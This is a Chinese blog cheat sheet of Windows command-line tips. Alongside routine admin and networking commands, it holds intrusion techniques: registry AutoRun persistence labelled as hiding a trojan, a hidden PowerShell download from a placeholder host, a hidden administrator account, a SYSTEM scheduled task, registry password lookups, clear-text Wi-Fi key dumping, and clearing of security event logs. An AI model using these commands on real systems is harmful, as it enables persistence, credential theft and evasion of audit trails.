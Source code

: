 ```yaml
---
title: Windows常用命令
date: 2017-03-08 20:21:00
comments: true
tags: 
- windows
categories: 技术研究
password:
copyright: true
---
```

<blockquote class="blockquote-center">除苦练内功之外，别无他法。
</blockquote>

分享一些自己常用的windows命令，本文会持续更新，全当笔记备份。本文大部分内容来自互联网整理汇总，小部分来自个人经验所总结。
<!--more -->
### CMD常用命令

隐藏木马：
```bash
CreateObject("WScript.Shell").RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Command Processor\AutoRun", "calc.exe","REG_SZ"
```
注册表添加这个值后，当运行cmd时，先运行你的计算器，命令行下cmd /k参数的原理。

列出ie代理设置：
```bash
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings"
```

下载远程文件：
```bash
powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://www.xxx.com/lcx.1','d:\\3.txt')
```
```bash
bitsadmin /rawreturn /transfer getfile http://127.0.0.1:8080/test.zip F:\123.zip
```
添加隐藏账号：
```bash
net user test$ test /add       添加test用户密码为test的隐藏账号
net localgroup administrators test$ /add 把test添加到系统用户组
```
列出更新的补丁：
```bash
wmic qfe list full /format:htable > hotfixes.htm
wmic qfe get description,installedOn
```
在d盘根目录递归查找login.html文件：
```bash
cd /d d: && dir login.html /a-d/b/s   
```
进入某盘符的某个目录下：
```bash
d: & cd d:/Clover
```
重新打开一个cmd运行：
```bash
cmd /c  whoami 
```
添加计划任务：
```bash
schtasks.exe  /Create /RU "SYSTEM" /SC MINUTE /MO       
45 /TN FIREWALL /TR "c:/1.ex    e" /ED 2016/12/12
可以把RU里面的system改为自己的账户名称，这样就可以执行添加计划任务了
```
进程相关：
```bash
tasklist   查看进程
taskkill /im 进程名称
taskkill /pid[进程码] -t(结束该进程) -f(强制结束该进程以及所有子进程)
```

查看windows系统未打的漏洞补丁：
```bash
set KB2829361=MS13-046&set KB2830290=MS13-046&set KB2667440=MS12-020&set KB2667402=MS12-020&set KB3124280=MS16-016&set KB3077657=MS15-077&set KB3045171=MS15-051&set KB2592799=MS11-080&set KB952004=MS09-012 PR&set KB956572=MS09-012 巴西烤肉&set KB970483=MS09-020 iis6&set KB2124261=MS10-065 ii7&set KB2271195=MS10-065 ii7&systeminfo>a.txt&(for %i in (KB952004 KB956572 KB2393802 KB2503665 KB2592799 KB2621440 KB2160329 KB970483 KB2124261 KB977165 KB958644 KB2667402 KB2667440 KB2830290 KB2829361 KB3045171 KB3077657 KB3124280) do @type a.txt|@find /i "%i"||@echo %%i% Not Installed!)&del /f /q /a a.txt
```
获取保存在注册表中密码的键值：
```bash
REG query HKCU  /v "pwd" /s  #pwd可替换为password \ HKCU 可替换为HKCR
```
识别开机启动的程序:
```bash
wmic startup list full
```
识别网卡中的IP与Mac：
```bash
wmic nicconfig get ipaddress,macaddress
```
查看共享服务：
```bash
wmic share get name,path
net share
```
查看系统中日志的位置：
```bash
wmic nteventlog get path,filename,writeable
```
删除日志：
```bash
wevtutil cl "windows powershell"
wevtutil cl "security"
wevtutil cl "system"
```
运行的服务：
```bash
sc query type= service
net start
```
安装的软件以及版本：
```bash
wmic product get name,version
```
查看某个进程的详细情况：
```bash
wmic process where name="chrome.exe" list full
```
显示系统中曾连接过的无线密码：(以管理员身份运行)
```bash
netsh wlan show profiles
netsh wlan show profiles name="profiles的名字" key=clear
```
一键获取：
```bash
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```
查看是否为虚拟机：
```bash
wmic bios list full | find /i "vmware"
```
是否支持powershell:
```bash
if defined PSModulePath (echo 支持powershell) else (echo 不支持powershell)
```
电脑产品编号与型号信息：
```bash
wmic baseboard get  Product,SerialNumber
```

### CMD局域网命令

arp -a 列出本网段内所有活跃的IP地址
arp -a 加对方IP是查对方的MAC地址
arp -s （ip + mac）绑定mac与ip地址
arp -d （ip + mac）解绑mac与ip地址

net view                  ------> 查询同一域内机器列表
net view /domain    ------> 查询域列表
net view /domain:domainname  -----> 查看workgroup域中计算机列表

ipconfig /all            ------> 查询本机IP段，所在域等
ipconfig /release
ipconfig /renew    重新获取Ip地址

telnet ip 端口号：尝试能否打开链接远程主机端口 nbtstat -a 加对方IP查对方的主机名
tracert 主机名   得到IP地址

netstat -a -n
netstat -an | find "3389"
netstat -a查看开启哪些端口
netstat -n查看端口的网络连接情况
netstat -v查看正在进行的工作
netstat -p tcp/ip查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况

nbtstat -n 获取NetBIOS
nslookup 域名   查询域名对应的ip

### DO常用快捷键

mspaint　　画图工具
calc　　计算机
notepad　　记事本
taskmgr　　任务管理器
osk　　打开屏幕键盘
gpedit.msc　　组策略
services.msc　　本地服务
compmgmt.msc　　计算机管理
devmgmt.msc　　设备管理器
winver　　查看系统版本
magnify　　放大镜实用程序
eventvwr　　事件查看器
Regedit　　打开注册表
resmon　　资源监视器
WMIC BIOS get releasedate　　查看电脑生产日期
mstsc -f　　远程连接（可以全屏）


*本文将持续收集更新，欢迎大家留言补充！*